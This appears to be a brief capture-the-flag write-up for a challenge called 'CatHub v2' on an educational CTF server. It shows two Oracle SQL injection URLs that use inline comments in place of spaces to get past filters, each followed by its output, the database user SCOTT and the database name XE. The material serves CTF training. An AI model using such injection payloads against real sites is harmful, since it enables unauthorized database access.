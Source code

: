 # CatHub v2 solution step by step
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,user,null/**/from/**/dual/**/where/**/rownum/**/=/**/1` --> SCOTT
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,SYS.DATABASE_NAME,null/**/from/**/dual` --> XE
    